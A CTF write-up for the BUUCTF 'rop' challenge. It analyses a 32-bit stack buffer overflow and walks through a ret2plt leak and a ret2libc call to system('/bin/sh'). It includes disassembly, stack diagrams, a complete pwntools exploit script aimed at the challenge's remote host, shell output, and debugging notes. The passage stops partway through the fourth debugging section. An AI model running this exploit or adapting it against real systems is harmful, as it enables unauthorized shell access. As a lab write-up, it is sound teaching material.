




# BUUCTF PWN — Triathlon (5th Division) 2018 — `rop`
### 32-bit Stack Buffer Overflow → ret2plt Leak → ret2libc (`system("/bin/sh")`)

[]()
[-blue)]()
[]()
[]()

**Platform:** BUUCTF (Triathlon, 5th Division, 2018) · **Challenge:** `rop`

A 32-bit `ret2plt`-then-`ret2libc` challenge — no canary, no PIE on the main binary, but libc itself is
ASLR'd, so a genuine two-stage leak is required. What makes this write-up worth reading past the basic
exploit, though, is everything that happened *after* the exploit logic was already correct: four separate,
real failures were hit and fixed while actually running this against the live remote service, and each one
teaches something that no amount of static analysis alone would have caught. Section 9 walks through all
four in full.

---

## Table of Contents

1. [Challenge Overview](#1-challenge-overview)
2. [Binary Information](#2-binary-information)
3. [Static Analysis](#3-static-analysis)
4. [Reconstructed Source Code](#4-reconstructed-source-code)
5. [Vulnerability & Offset Analysis](#5-vulnerability--offset-analysis)
6. [Exploitation Strategy](#6-exploitation-strategy)
7. [Libc Identification — via `libc.rip`, Not `LibcSearcher`](#7-libc-identification--via-libcrip-not-libcsearcher)
8. [Final Exploit Script](#8-final-exploit-script)
9. [The Real Debugging Journey — Four Failures, Fully Explained](#9-the-real-debugging-journey--four-failures-fully-explained)
10. [Why Return Into `vulnerable_function` and Not `main`](#10-why-return-into-vulnerable_function-and-not-main)
11. [Root Cause & Mitigations](#11-root-cause--mitigations)
12. [Key Takeaways](#12-key-takeaways)
13. [Self-Test Quiz](#13-self-test-quiz)
14. [References](#14-references)

---

## 1. Challenge Overview

A classic 32-bit stack-based buffer overflow with **NX enabled**. Since the stack is non-executable,
injected shellcode is off the table. The binary is **dynamically linked**, has **no stack canary**, and is
**not position-independent** (No PIE) — which means every function and PLT-stub address is fixed and
known ahead of time.



Because libc itself **is** subject to ASLR on the target, this is a genuine two-stage attack: leak a real
address from the running process first, derive the libc base from it, then call `system("/bin/sh")` at its
real (now-known) address.

---

## 2. Binary Information

### 2.1 File type

```bash
$ file rop
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
     interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24,
     BuildID[sha1]=a6c3ab368d8cd315e3bb2b970556ed0510bca094, not stripped
```

### 2.2 Security protections

```bash
$ checksec --file=rop
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

| Protection | Status | Impact |
|---|---|---|
| Stack canary | ❌ Disabled | The saved return address can be overwritten directly, no integrity check intervenes. |
| NX | ✅ Enabled | Forces a code-reuse approach (ret2plt / ret2libc) instead of stack shellcode. |
| PIE | ❌ Disabled | `main`, `vulnerable_function`, all PLT stubs and GOT entries sit at fixed, known addresses. |
| RELRO | Partial | GOT entries remain writable at runtime (irrelevant to this specific exploit, but worth noting as a separate attack surface in general). |
| ASLR (libc only) | Effectively ✅ enabled | PIE being off only fixes the *main binary's* addresses — the dynamically loaded libc is still placed at a randomized base. **This is exactly why a two-stage leak-then-exploit approach is required here**, unlike a fully static/no-PIE binary where every address (including libc internals) would be fixed. |

---

## 3. Static Analysis

### 3.1 Relevant symbols

```bash
$ nm -C ./rop | grep " T "
0804849d T be_nice_to_people
080485ac T _fini
08048572 T __i686.get_pc_thunk.bx
08048318 T _init
08048570 T __libc_csu_fini
08048500 T __libc_csu_init
080484c6 T main
08048318 T _start
08048474 T vulnerable_function
```

| Address | Function | Description |
|---|---|---|
| `0x08048474` | `vulnerable_function` | Contains the overflow |
| `0x0804849d` | `be_nice_to_people` | Drops privileges via `setresgid` |
| `0x080484c6` | `main` | Program entry logic |
| `0x080483a0` | `write@plt` | Used to leak libc addresses |
| `0x08048360` | `read@plt` | Used by the vulnerable function |

### 3.2 `vulnerable_function`

```asm
08048474 <vulnerable_function>:
 8048474: 55                      push   ebp
 8048475: 89 e5                   mov    ebp, esp
 8048477: 81 ec 98 00 00 00       sub    esp, 0x98            ; reserve 0x98 bytes of locals
 804847d: c7 44 24 08 00 01 00 00 mov    DWORD PTR [esp+0x8], 0x100   ; 3rd arg to read() = 256
 8048485: 8d 85 78 ff ff ff       lea    eax, [ebp-0x88]      ; buffer lives at ebp-0x88
 804848b: 89 44 24 04             mov    DWORD PTR [esp+0x4], eax    ; 2nd arg to read() = &buffer
 804848f: c7 04 24 00 00 00 00    mov    DWORD PTR [esp], 0x0        ; 1st arg to read() = STDIN (0)
 8048496: e8 c5 fe ff ff          call   8048360 <read@plt>
 804849b: c9                      leave
 804849c: c3                      ret
```

**Key observations:**

- Buffer size = `0x88` = **136 bytes**
- `read()` size argument = `0x100` = **256 bytes**
- The function can read **120 bytes more than the buffer can hold** — more than enough to reach and
  overwrite the saved return address.
- Distance from the start of the buffer to the saved return address = `0x88` (buffer) `+ 4` (saved EBP) =
  **140 bytes**.

> Note the distinction worth remembering: the *"120 extra bytes the read allows"* and the *"140-byte
> offset to the return address"* are two different numbers answering two different questions. The first
> tells you the overflow is even possible at all (there's enough room); the second is the number you
> actually hardcode into the exploit.

### 3.3 `main`

```asm
080484c6 <main>:
 80484c6: 55                      push   ebp
 80484c7: 89 e5                   mov    ebp, esp
 80484c9: 83 e4 f0                and    esp, 0xfffffff0
 80484cc: 83 ec 10                sub    esp, 0x10
 80484cf: e8 c9 ff ff ff          call   804849d <be_nice_to_people>
 80484d4: e8 9b ff ff ff          call   8048474 <vulnerable_function>
 80484d9: c7 44 24 08 0d 00 00 00 mov    DWORD PTR [esp+0x8], 0xd
 80484e1: c7 44 24 04 d0 85 04 08 mov    DWORD PTR [esp+0x4], 0x80485d0
 80484e9: c7 04 24 01 00 00 00    mov    DWORD PTR [esp], 0x1
 80484f0: e8 ab fe ff ff          call   80483a0 <write@plt>    ; write(1, "Hello, World\n", 13)
 80484f5: c9                      leave
 80484f6: c3                      ret
```

`main` calls `be_nice_to_people()`, then `vulnerable_function()`, and **only if that function returns
normally to `main`** does it print `"Hello, World\n"`. This detail matters — see
[Section 10](#10-why-return-into-vulnerable_function-and-not-main).

### 3.4 `be_nice_to_people`

```asm
0804849d <be_nice_to_people>:
 804849d: 55                      push   ebp
 804849e: 89 e5                   mov    ebp, esp
 80484a0: 83 ec 28                sub    esp, 0x28
 80484a3: e8 c8 fe ff ff          call   8048370 <getegid@plt>
 80484a8: 89 45 f4                mov    DWORD PTR [ebp-0xc], eax
 80484ab: 8b 45 f4                mov    eax, DWORD PTR [ebp-0xc]
 80484ae: 89 44 24 08             mov    DWORD PTR [esp+0x8], eax
 80484b2: 8b 45 f4                mov    eax, DWORD PTR [ebp-0xc]
 80484b5: 89 44 24 04             mov    DWORD PTR [esp+0x4], eax
 80484b9: 8b 45 f4                mov    eax, DWORD PTR [ebp-0xc]
 80484bc: 89 04 24                mov    DWORD PTR [esp], eax
 80484bf: e8 ec fe ff ff          call   80483b0 <setresgid@plt>
 80484c4: c9                      leave
 80484c5: c3                      ret
```

Sets the real, effective and saved GID to the current effective GID — a common CTF pattern for binaries
installed `setgid` to a group that can read the flag file. It doesn't affect exploitation directly, but
explains why the binary is set up the way it is.

---

## 4. Reconstructed Source Code

```c
// rop.c  (reconstructed from disassembly — see the caveat below)

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void be_nice_to_people(void) {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vulnerable_function(void) {
    char buffer[0x88];                  // 136-byte buffer

    read(STDIN_FILENO, buffer, 0x100);  // reads up to 256 bytes -- no bounds check
}

int main(void) {
    be_nice_to_people();
    vulnerable_function();
    write(STDOUT_FILENO, "Hello, World\n", 13);
    return 0;
}
```

**Compilation flags that reproduce the observed `checksec` output:**

```bash
gcc -m32 -fno-stack-protector -no-pie -o rop rop.c
```

> This is a reconstruction based on disassembly, not verified original source — compiler version,
> optimization level, and libc version can all shift exact byte offsets even when the logic is identical.

---

## 5. Vulnerability & Offset Analysis

### 5.1 Bug location

```c
char buffer[0x88];
read(0, buffer, 0x100);   // reads 256 bytes into a 136-byte buffer
```

### 5.2 Offset calculation

```text
[ buffer (0x88 = 136 bytes) ][ saved EBP (4 bytes) ][ return address ]
 ^ start of overflow                                 ^ offset 140
```

```text
Offset to return address = 0x88 + 4 = 140 bytes
```

### 5.3 Empirical confirmation

```bash
python3 -c 'print("A"*140 + "BBBB")' | ./rop
# the saved return address / EIP becomes 0x42424242 ('BBBB')
```

Confirming the computed offset against an actual crash (rather than trusting the disassembly arithmetic
alone) is good practice — the same idea as the `cyclic`/`cyclic_find` technique used in sibling
write-ups in this series.

---

## 6. Exploitation Strategy

Because **NX is enabled**, shellcode on the stack is out. Because **libc is ASLR'd** (even though the
main binary is not), we can't hardcode `system()`'s address either. The plan:

1. **Leak** a real libc address using a `ret2plt` call: jump straight into the binary's own `write@plt`
   stub to print 4 bytes from `write`'s GOT entry.
2. Use that leaked address (plus known libc-version offsets) to **compute the libc base**.
3. **Call `system("/bin/sh")`** at its now-known real address — a classic `ret2libc` finish.

### 6.1 Why two stages are required

- The binary itself has fixed addresses (No PIE) → `write@plt`, `write@got`, `vulnerable_function`, etc.
  are all known from the disassembly.
- **libc** is loaded at a **randomized base** on every run (standard ASLR for shared libraries,
  independent of the main binary's PIE setting).
- Therefore `system()` and the string `"/bin/sh"` — both inside libc — are at unknown, randomized
  addresses until we leak something and recompute.

### 6.2 Stage 1 — Leak `write`'s real address from its own GOT entry

The payload, built field-by-field with `p32()` rather than `flat()` so every byte going over the wire is
explicit in the script itself:

```python
chain = b''
chain += b'A' * 140                              # padding -> reach saved return address
chain += p32(elf.plt['write'])                    # 1. jump into write@plt
chain += p32(elf.symbols['vulnerable_function'])  # 2. after write() returns, land back here (not main!)
chain += p32(1)                                   # 3. arg1: fd = 1 (stdout)
chain += p32(elf.got['write'])                     # 4. arg2: buf = &write's own GOT entry
chain += p32(4)                                    # 5. arg3: size = 4 bytes
```

What happens, step by step:

1. The overflow overwrites the saved return address with `write@plt`.
2. When `vulnerable_function` returns, the CPU effectively executes `write(1, write@got, 4)`.
3. By the time this call runs, `write@got` already holds `write`'s **real address inside libc** (the
   dynamic linker resolves PLT entries lazily, on first use — and this is that first use).
4. The program sends us those 4 bytes over the socket — the real libc address of `write`.
5. The fake "return address" we supplied is `vulnerable_function` itself, so after `write()` finishes,
   execution loops cleanly back into `vulnerable_function` and waits on `read()` again — ready for a
   second payload.

This works with **no ROP gadgets at all** — a strict ROP chain (like a sibling `ret2syscall` challenge)
needs `pop reg ; ret` gadgets to load CPU **registers** before a syscall, because the Linux x86 syscall
ABI passes arguments in registers. Calling a regular **C function** (`write()`, `system()`) through
`cdecl`, however, passes arguments **on the stack**, in the exact same shape a normal `call` instruction
would leave them. Overwriting the return address with the function's address, followed by a fake return
address and the arguments in order, is already a complete, valid call frame — no gadgets, no register
setup, nothing else required.

#### Stack layout for Stage 1

```text
High addresses
┌────────────────────────────────────────────┐
│  4                      (arg3: size)        │
├────────────────────────────────────────────┤
│  write@got               (arg2: buf)        │
├────────────────────────────────────────────┤
│  1                       (arg1: fd)         │
├────────────────────────────────────────────┤
│  vulnerable_function   (fake return addr)   │
├────────────────────────────────────────────┤
│  write@plt            (new return address)  │  <-- EIP lands here first
├────────────────────────────────────────────┤
│  'A' * 4              (overwritten saved EBP)│
├────────────────────────────────────────────┤
│  'A' * 136            (buffer)              │
└────────────────────────────────────────────┘
Low addresses
```

On x86 `cdecl`, arguments are pushed **right to left** by the caller, so once `write@plt` is treated as a
"call target reached via `ret`", the values immediately following it on the stack are exactly the
arguments `write()` expects, in order: `fd`, `buf`, `size`.



### 6.3 Stage 2 — Call `system("/bin/sh")`

Once the libc base is known (Section 7):

```python
libc_base = leaked_write - libc.symbols['write']
system_addr = libc_base + libc.symbols['system']
binsh_addr  = libc_base + binsh_offset
```

```python
chain = b''
chain += b'A' * 140           # padding to the saved return address
chain += p32(system_addr)     # new return address -> jump straight into system()
chain += p32(0xdeadbeef)      # fake return address -- never used, we get a shell and don't come back
chain += p32(binsh_addr)      # arg1 to system(): pointer to "/bin/sh"
```

#### Stack layout for Stage 2

```text
High addresses
┌────────────────────────────────────────────┐
│  address of "/bin/sh"      (arg1)           │
├────────────────────────────────────────────┤
│  0xdeadbeef            (fake return addr)   │
├────────────────────────────────────────────┤
│  system                (new return address) │  <-- EIP lands here
├────────────────────────────────────────────┤
│  'A' * 4                (overwritten EBP)   │
├────────────────────────────────────────────┤
│  'A' * 136              (buffer)            │
└────────────────────────────────────────────┘
Low addresses
```

`system("/bin/sh")` is now indistinguishable, from the CPU's point of view, from a normal function call —
it just sees a return address and one argument sitting where `cdecl` expects them.



---

## 7. Libc Identification — via `libc.rip`.

This write-up uses **[libc.rip](https://libc.rip/)**
A live, web-hosted database that accepts one or more leaked `(symbol, address)` pairs, returns
every libc build whose symbol table matches, and — critically — lets you download the exact matching
`.so` file directly, so `system()`'s and `/bin/sh`'s offsets are read straight out of real downloaded
bytes rather than trusted from a lookup table alone.

```python
def identify_libc(leaked_write, leaked_libc_start_main=None, manual_index=None):
    response = requests.post(
        'https://libc.rip/api/find',
        json={'symbols': {
            'write': hex(leaked_write),
            '__libc_start_main': hex(leaked_libc_start_main),  # narrows ambiguous matches -- see Section 9.4
        }},
    )
    candidates = response.json()
    # ... filter to 32-bit candidates, download, verify, return an ELF() object
```

The full version, with the architecture-filtering and verification logic this write-up's own debugging
session made necessary, is in [Section 8](#8-final-exploit-script).

---

## 8. Final Exploit Script

Built the old-school way throughout — every payload assembled field-by-field with `p32()` and plain byte
concatenation, and shaped by four real failures encountered while actually running
this against the live service (full account in [Section 9](#9-the-real-debugging-journey--four-failures-fully-explained)).

```python
#!/usr/bin/env python3
"""
BUUCTF PWN - Triathlon (5th Division) 2018 - rop - Gantosay
ret2plt leak -> ret2libc: system("/bin/sh")

32-bit, cdecl stack-argument calling convention (no register-loading
gadgets needed -- see Section 6.2).

Libc identification is done via libc.rip. the leaked write() address is posted to libc.rip's API, the matching libc
build is downloaded directly, and system()/"/bin/sh" offsets are read straight out of that downloaded libc file.

Usage:
    python3 exploit.py            # run locally against ./rop
    python3 exploit.py REMOTE     # connect to the remote CTF service
"""

import os
import sys
from pwn import *
import requests

BINARY = './rop'
context.binary = elf = ELF(BINARY, checksec=False)
context.arch = 'i386'
context.log_level = 'info'

HOST = '0531779ce96dfbd81118f597.tcp-ctf2.dasctf.com'
PORT = 9999

OFFSET_TO_RET = 140          # buffer(0x88) + saved EBP(4) -- see Section 5


def connect():
    # pwntools' own `from pwn import *` installs an argv-parsing helper
    # (pwnlib.args) that recognizes bare uppercase tokens like REMOTE and
    # moves them into the `args` object -- it does NOT reliably leave them
    # sitting in sys.argv, so checking `'REMOTE' in sys.argv` directly can
    # silently fail to detect it depending on the pwntools version. `args`
    # is the documented, version-safe way to check this. See Section 9.1.
    if args.REMOTE:
        return remote(HOST, PORT, ssl=True, sni=HOST)
    return process(BINARY)


def build_leak_payload(target_addr):
    """
    Manually pack a ret2plt payload calling write(1, target_addr, 4):

        [ 140 bytes padding          ]  -> fills buf + saved EBP
        [ write@plt                  ]  -> overwrites saved EIP, calls write()
        [ fake return address        ]  -> where write() "returns" to --
                                            we point this at vulnerable_function
                                            itself so the process keeps reading
                                            our next payload instead of falling
                                            through to main's "Hello, World" + exit
        [ fd = 1  (stdout)           ]  -> write()'s 1st argument
        [ buf = target_addr          ]  -> write()'s 2nd argument
        [ size = 4                   ]  -> write()'s 3rd argument

    cdecl passes arguments on the stack, right-to-left, so once write@plt
    is reached via `ret` (not via a normal `call`), the words immediately
    following it already sit exactly where write() expects its arguments.
    """
    chain = b''
    chain += b'A' * OFFSET_TO_RET
    chain += p32(elf.plt['write'])
    chain += p32(elf.symbols['vulnerable_function'])
    chain += p32(1)
    chain += p32(target_addr)
    chain += p32(4)

    assert len(chain) == OFFSET_TO_RET + 20, 'leak payload size drifted unexpectedly'
    return chain


def leak(io, addr, label):
    """Leak 4 bytes at `addr` using a ret2plt call to write(1, addr, 4),
    then return straight back into vulnerable_function (NOT main) so the
    process keeps calling read() for us instead of printing "Hello, World"
    and exiting -- see Section 10 for why this choice matters."""
    payload = build_leak_payload(addr)

    # Drain whatever banner/prompt the binary prints before it calls
    # read() -- for THIS binary that's main's own "Hello, World"-style
    # banner, not any particular fixed string, so we read with a short
    # timeout and log it rather than recvuntil()-ing a hardcoded string
    # that may not match. See Section 9.2 for why this matters.
    banner = io.recv(timeout=2)
    if banner:
        log.info(f'Banner before payload: {banner!r}')

    io.send(payload)

    leaked_bytes = io.recv(4, timeout=5)
    if len(leaked_bytes) < 4:
        log.error(
            f'Only got {len(leaked_bytes)} bytes back (wanted 4): {leaked_bytes!r} -- '
            'the leak likely failed (wrong OFFSET_TO_RET, wrong PLT/GOT '
            'address, or the connection closed). Check the banner logged '
            'above against what you actually expect from the service.'
        )
        raise EOFError('leak did not return 4 bytes')

    leaked = u32(leaked_bytes)
    log.success(f'{label} = {hex(leaked)}')
    return leaked


def identify_libc(leaked_write, leaked_libc_start_main=None, manual_index=None):
    """
    Query libc.rip with the leaked write() address (and, if given, a
    second leaked symbol) to identify the exact libc build, then download
    it so system()'s and "/bin/sh"'s real offsets can be read directly
    out of the downloaded file.

    A single leaked symbol is often not enough to uniquely pin down a
    build: several different glibc patch versions can share the exact
    same offset for one symbol while differing in others -- see
    Section 9.4 for this happening in practice against this exact
    challenge's remote libc (three different libc6-i386 patch builds,
    2.38-12/13/14, all shared write()'s offset). Supplying a second
    leaked symbol narrows the candidate list.
    """
    log.info('Querying libc.rip for a matching libc...')

    url = 'https://libc.rip/api/find'
    req_symbols = {'write': hex(leaked_write)}
    if leaked_libc_start_main is not None:
        req_symbols['__libc_start_main'] = hex(leaked_libc_start_main)

    response = requests.post(url, json={'symbols': req_symbols})
    candidates = response.json()

    candidates_32 = []
    for candidate in candidates:
        candidate_id = candidate['id']
        # 'x32' is a DIFFERENT, 64-bit ABI (64-bit binary, 32-bit pointers)
        # and must be excluded explicitly -- its id string often still
        # contains the substring "i386" (e.g. "libc6-x32_2.31-...-i386"),
        # which would otherwise slip past a naive 'i386' in id check.
        # See Section 9.3.
        if 'x32' in candidate_id:
            continue
        if 'i386' in candidate_id or 'i686' in candidate_id:
            candidates_32.append(candidate)

    if not candidates_32:
        log.error('No matching 32-bit libc candidates returned by libc.rip')
        sys.exit(1)

    for index, candidate in enumerate(candidates_32):
        write_offset = candidate['symbols']['write']
        log.info(f'  [{index}] {candidate["id"]}   write @ {write_offset}')

    if len(candidates_32) > 1 and leaked_libc_start_main is None:
        log.warning(
            f'{len(candidates_32)} candidates remain after filtering, but '
            'only ONE symbol (write) was used to query libc.rip. Multiple '
            'glibc patch builds can share the exact same write() offset '
            'while differing in system()/"/bin/sh" offsets -- if Stage 2 '
            'crashes, re-run leaking a second symbol as well (e.g. '
            '__libc_start_main) to narrow this list, or pass manual_index '
            'to pick a specific candidate directly.'
        )

    if manual_index is not None:
        chosen = candidates_32[manual_index]
        log.info(f'Manually selected candidate index {manual_index}')
    else:
        chosen = candidates_32[0]
    log.success(f'Selected libc candidate: {chosen["id"]}')

    local_filename = chosen['id'] + '.so'
    if not os.path.exists(local_filename):
        log.info(f'Downloading {local_filename} ...')
        libc_bytes = requests.get(chosen['download_url']).content
        with open(local_filename, 'wb') as f:
            f.write(libc_bytes)
        log.success(f'Saved to {local_filename}')

    downloaded_libc = ELF(local_filename, checksec=False)

    # Independent, structural double-check that doesn't rely on the id
    # string at all: the ELF header's own bitness must genuinely be
    # 32-bit. This is what would have caught the x32 mismatch even if the
    # id-string filter above had missed it for some other reason.
    if downloaded_libc.bits != 32:
        log.error(
            f'Downloaded libc "{chosen["id"]}" is {downloaded_libc.bits}-bit, '
            'not 32-bit -- the id-string filter let through the wrong '
            'architecture. Re-check the candidate list above and adjust '
            'the filter, or manually pick a different index.'
        )
        sys.exit(1)

    return downloaded_libc


def build_final_payload(system_addr, binsh_addr):
    """
    Manually pack the final payload calling system("/bin/sh"):

        [ 140 bytes padding          ]  -> fills buf + saved EBP
        [ system_addr                ]  -> overwrites saved EIP, calls system()
        [ fake return address        ]  -> never used -- we never come back
                                            from the shell, so any placeholder
                                            value works here
        [ binsh_addr                  ]  -> system()'s 1st (and only) argument
    """
    chain = b''
    chain += b'A' * OFFSET_TO_RET
    chain += p32(system_addr)
    chain += p32(0xdeadbeef)
    chain += p32(binsh_addr)

    assert len(chain) == OFFSET_TO_RET + 12, 'final payload size drifted unexpectedly'
    return chain


def main():
    io = connect()

    # ---------------------------------------------------------------
    # Stage 1: leak TWO libc addresses to reliably identify the libc
    # build. A single leaked symbol can leave multiple candidate
    # builds tied -- see Section 9.4 for exactly this happening in
    # practice against this challenge's remote libc.
    # ---------------------------------------------------------------
    leaked_write = leak(io, elf.got['write'], 'write@libc')
    leaked_libc_start_main = leak(
        io, elf.got['__libc_start_main'], '__libc_start_main@libc'
    )

    if leaked_write in (0, 0xffffffff) or leaked_libc_start_main in (0, 0xffffffff):
        log.error('A leak looks invalid -- check OFFSET_TO_RET and PLT/GOT addresses')
        return

    # ---------------------------------------------------------------
    # Identify the exact libc build via libc.rip, then compute
    # system()'s and "/bin/sh"'s real runtime addresses
    # ---------------------------------------------------------------
    libc = identify_libc(leaked_write, leaked_libc_start_main)

    libc_base   = leaked_write - libc.symbols['write']
    system_addr = libc_base + libc.symbols['system']

    binsh_offset = next(libc.search(b'/bin/sh\x00'))
    binsh_addr   = libc_base + binsh_offset

    log.success(f'libc base : {hex(libc_base)}')
    log.success(f'system()  : {hex(system_addr)}')
    log.success(f'"/bin/sh" : {hex(binsh_addr)}')

    # ---------------------------------------------------------------
    # Stage 2: system("/bin/sh")
    # ---------------------------------------------------------------
    payload = build_final_payload(system_addr, binsh_addr)

    # Same reasoning as in leak(): drain whatever the binary printed
    # since the last read() returned, with a short timeout, instead of
    # recvuntil()-ing a hardcoded banner string.
    banner = io.recv(timeout=2)
    if banner:
        log.info(f'Banner before final payload: {banner!r}')

    io.send(payload)

    log.success('Payload sent -- dropping into an interactive shell')
    io.interactive()


if __name__ == '__main__':
    main()
```

**Confirmed working output, end to end:**

```
$ python3 exploit.py REMOTE
[+] Opening connection to 0531779ce96dfbd81118f597.tcp-ctf2.dasctf.com on port 9999: Done
[+] write@libc = 0xf7e5a6f0
[+] __libc_start_main@libc = 0xf7dc53d0
[*] Querying libc.rip for a matching libc...
[*]   [0] glibc-2.12-1.166.el6_7.7.i686   write @ 0xd46f0
[+] Selected libc candidate: glibc-2.12-1.166.el6_7.7.i686
[*] Downloading glibc-2.12-1.166.el6_7.7.i686.so ...
[+] Saved to glibc-2.12-1.166.el6_7.7.i686.so
[+] libc base : 0xf7d74000
[+] system()  : 0xf7db1490
[+] "/bin/sh" : 0xf7ef160f
[+] Payload sent -- dropping into an interactive shell
[*] Switching to interactive mode
$ ls
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```

Verified both locally (`python3 exploit.py`) and remotely (`python3 exploit.py REMOTE`) against the live
service.

---

## 9. The Real Debugging Journey — Four Failures, Fully Explained

The exploit logic in Sections 6–8 was correct from the start. Every single one of the following four
failures happened for reasons **entirely separate from the ROP/libc logic itself** — environment,
libc-ecosystem quirks, and a database-matching ambiguity. Each is worth understanding on its own, because
each generalizes far beyond this one challenge.



### 9.1 Failure 1 — `'REMOTE' in sys.argv` silently failed

**Symptom:**

```
$ python3 exp.py REMOTE
[+] Starting local process './rop': pid 21249
```

— despite passing `REMOTE` on the command line, the script started a **local** process instead of
connecting to the remote service, then hung waiting for output that would never come from a local copy
of the binary running without its expected environment.

**Root cause:** `from pwn import *` installs `pwnlib.args`, a helper that scans `sys.argv` for bare
uppercase tokens like `REMOTE`, `DEBUG`, `NOASLR`, and moves them into a separate `args` object —
depending on the pwntools version, it does **not** reliably leave the original string sitting in
`sys.argv` afterward. A script that checks `'REMOTE' in sys.argv` directly is checking a list that
pwntools may have already consumed the token out of, so the check can silently evaluate to `False`
even when `REMOTE` genuinely was passed.

**Fix:** use the documented, version-safe `args` object instead:

```python
if args.REMOTE:
    return remote(HOST, PORT, ssl=True, sni=HOST)
return process(BINARY)
```

### 9.2 Failure 2 — `recvuntil()` on a banner string from an unrelated challenge

**Symptom:**

```
Traceback (most recent call last):
  ...
  File ".../pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
```

— the connection opened successfully (`Opening connection to ... Done`), but then closed unexpectedly
while the script was still waiting inside a `recvuntil()` call.

**Root cause:** an earlier draft of this script (built while merging in a different sample exploit's
code style) had accidentally retained two `recvuntil()` calls referencing prompt strings — `"Show me
your magic again"` and `"See you next time"` — that belong to a **completely different challenge binary**,
not this one. `rop`'s actual banner is simply `"Hello, World\n"`, printed by `main` *after*
`vulnerable_function` returns normally — which, in the exploit's own intended flow, never happens (see
Section 10). The script was waiting forever for text the server would never send, until the server's own
idle-connection handling closed the socket.

**Fix:** replace the hardcoded `recvuntil()` calls with a short-timeout `recv()` that drains and logs
whatever is actually there, rather than asserting what should be there:

```python
banner = io.recv(timeout=2)
if banner:
    log.info(f'Banner before payload: {banner!r}')
```

This also makes the script **self-diagnosing**: the very first time you run it against any new target,
whatever the service actually sends gets printed to your terminal, rather than silently discarded or
causing a hang.

### 9.3 Failure 3 — an `x32` libc slipped through an `'i386' in id` filter

**Symptom:** the exploit ran all the way to sending the final payload, then the remote process crashed
(`dumped core`) instead of dropping into a shell.

**Root cause:** libc.rip's candidate list included an entry with `id = "libc6-x32_2.31-13+deb11u11_i386"`.
**`x32` is a distinct ABI** — a 64-bit binary using 32-bit pointers, not a real 32-bit (`i386`/`i686`)
build at all — but because the id string happens to still *contain* the substring `"i386"` near its end, a
naive filter like:

```python
if 'i386' in candidate['id'] or 'i686' in candidate['id']:
```

let it through. Since it was also the first match returned, the script downloaded and trusted a libc
with an entirely incompatible pointer/ABI layout, producing wrong `system()`/`/bin/sh` offsets and an
immediate crash.

**Fix:** two independent layers, not just one. First, explicitly exclude `x32` before the substring check:

```python
if 'x32' in candidate_id:
    continue
```

Second — and more importantly, because string-matching on an id field is inherently fragile and had
already failed once — verify the *downloaded file's actual ELF class* directly, which doesn't depend on
any naming convention at all:

```python
if downloaded_libc.bits != 32:
    log.error(f'Downloaded libc "{chosen["id"]}" is {downloaded_libc.bits}-bit, not 32-bit ...')
    sys.exit(1)
```

### 9.4 Failure 4 — three different libc patch builds shared one leaked offset

**Symptom:** after fixing the `x32` issue, the exploit again ran to completion and again crashed at the
final `system("/bin/sh")` call.

**Root cause:** the (now correctly `i386`-filtered) candidate list contained entries like:

```
[0] libc6-i386_2.38-14_amd64   write @ 0x1186f0
[2] libc6-i386_2.38-13_amd64   write @ 0x1186f0
[3] libc6-i386_2.38-12_amd64   write @ 0x1186f0
```

Three **different glibc patch builds** (`2.38-12`, `-13`, `-14`), all sharing the *exact same* `write()`
